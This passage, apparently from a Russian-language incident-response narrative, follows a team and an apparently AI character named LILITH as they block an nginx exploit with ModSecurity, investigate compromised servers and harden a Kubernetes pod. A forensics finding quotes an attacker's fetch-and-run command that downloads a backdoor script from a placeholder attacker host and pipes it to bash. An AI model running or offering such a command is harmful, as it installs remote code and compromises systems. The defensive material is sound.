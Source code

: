 ```bash
sudo nginx -t

# Перезагрузить (НЕ перезапускать — минимизировать простой)
sudo nginx -s reload
```

```
[10:45 UTC]

Dmitry: "ModSecurity правила межсетевого экрана развёрнуты. Блокирует шаблон:
         POST-запросы с Content-Length < 0."

LILITH: "Попытки эксплуатации: 347 заблокировано за последние 5 минут.
         Межсетевой экрана приложений работает. Но не на 100% —
         опытные атакующие могут обойти."

Anna: "Криминалистика начата. Логи показывают 2 сервера скомпрометированы.
       Выполненная команда: 'curl http://[IP-атакующего]/backdoor.sh | bash'
       Попытка загрузки бэкдора."

Макс: "Алекс, изолируй скомпрометированные серверы. Анна, помоги с криминалистикой.
       Дмитрий, активируй правила межсетевого экрана приложений НА ВСЕХ серверах."
```

---

### Изоляция контейнеров: ограничение радиуса поражения

```
LILITH: "Даже если межсетевой экран приложений обойдён,
         можно ограничить что атакующий может сделать.

         Изоляция контейнеров через политики безопасности Kubernetes.

         Принцип: Даже если nginx скомпрометирован, атакующий НЕ может:
         - Повысить привилегии до root
         - Изменить файлы контейнера (файловая система только для чтения)
         - Получить доступ к другим контейнерам/подам
         - Установить постоянный бэкдор

         Конфигурация:"
```

```yaml
# Политика безопасности для пода nginx
apiVersion: v1
kind: Pod
metadata:
  name: nginx-secure
  namespace: production
spec:
  securityContext:
    runAsNonRoot: true      # НЕ запускать от root
    runAsUser: 1000          # UID 1000 (непривилегированный)
    fsGroup: 1000
  containers:
  - name: nginx
    image: nginx:1.25.2
    securityContext:
      allowPrivilegeEscalation: false  # Запретить повышение привилегий
      capabilities:
        drop:
        - ALL                # Отбросить все возможности
        add:
        - NET_BIND_SERVICE   # Только привязка к портам <1024
```